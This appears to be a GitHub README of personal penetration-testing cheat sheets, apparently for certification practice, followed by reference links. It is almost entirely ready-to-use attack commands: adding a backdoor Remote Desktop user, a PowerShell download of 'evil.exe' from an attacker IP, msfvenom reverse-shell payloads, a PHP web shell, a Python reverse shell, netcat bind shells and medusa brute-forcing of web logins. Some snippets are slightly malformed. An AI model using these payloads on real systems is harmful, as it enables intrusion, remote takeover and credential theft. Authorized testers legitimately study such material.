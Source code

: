 # Cybersecurity Cheatsheats
Collection of cybersecurity notes and cheat sheets.  If I pulled content from some else’s cheat sheet or site it will be listed reference section.

## User and group managment

Windows
```shell
net user bob bob123 /ADD
net localgroup "Remote Desktop Users" bob /ADD
net localgroup "Users" bob /ADD
```
## Starting services
linux
```shell
systemctl start ssh
systemctl start apache2
service apache2 start
```



## Enable/Disable service to start on boot
linux
```shell
systemctl enable apache2
systemctl disable apache2
```
## Download files

Powershell
```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://[your_ip_address]/evil.exe','evil.exe')
```

## msfvenom examples
```shell
msfvenom -p windows/shell_reverse_tcp  HOST=[your_ip_address] LPORT=[Port] -f asp > shell.asp
```

```shell
msfvenom -p windows/meterpreter/reverse_tcp [your_ip_address] LPORT=[Port] -f aspx > shell.aspx
```

## shells

PHP

```php
<<?php echo shell_exec($_GET['cmd']);?>
```

Python

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<IP Address>",443))
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)p=subprocess.call(["/bin/sh","-i"])
```

### Netcat

-   Client nc –nv <Your IP Address> <port>
-   Server nc –nlvp <port>

### Ncat

-   Bind Shell: ncat –exec cmd.exe --allow <your_ip_address>-vnl <port>  --ssl
-   Client: ncat –v <your_ip_address> <port> --ssl
  
## Ncat 
-   TCP Port scan: nc –nvv –w 1 -z <your_ip_address> 3000-4000
-   UDP port scan: nc –nvv -u -z <your_ip_address> 3000-4000


medusa example
```shell
medusa \
  -h [target_ip] \
  -u offsec \
  -P nmap.lst \
  -M web-form \
  -m FORM:"login.php" \
  -m DENY-SIGNAL:"Wrong Username or Password" \
  -m FORM-DATA:"post?user=&pass=&Login=Login"


  medusa \
-h [target_ip]\
-u admin \
-P /data/dict/dict.txt \
-M web-form \
-m FORM:"admin/test.php" \
-m DENY-SIGNAL:"ACCESS DENIED" \
-m FORM-DATA:"post?u=&p=&Login=Login"
```


## References
* http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/?redirect
* http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
* http://pentestmonkey.net/tools/audit/unix-privesc-check
* http://pentestmonkey.net/tools/web-shells/php-reverse-shell
* http://resources.infosecinstitute.com/privilege-escalation-linux-live-examples/
* http://www.computersecurity.org/computer-cyber-security-certifications-education-college-courses/cheat-sheet-how-to-pass-the-oscp-offensive-security-certified-professional-exam-step-by-step-guide-enumerating-services-part-2/
* http://www.computersecurity.org/computer-cyber-security-certifications-education-college-courses/cheat-sheet-how-to-pass-the-oscp-offensive-security-certified-professional-exam-step-by-step-guide-sqli-xss-web-app-attacks-part-5/
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
* https://blog.sucuri.net/2013/05/from-a-site-compromise-to-full-root-access-local-root-exploits-part-ii.html
* https://hackingandsecurity.blogspot.com/2016/04/oscp-related-notes.html?m=1
* https://hackingandsecurity.blogspot.com/2016/04/oscp-related-notes.html?m=1
* https://hackmag.com/security/reach-the-root/
* https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
* https://highon.coffee/blog/tr0ll-1-walkthrough/
* https://jordanpotti.com/oscp/
* https://jordanpotti.com/oscp/
* https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
* https://security.stackexchange.com/questions/68442/escalating-from-apache-shell-to-root
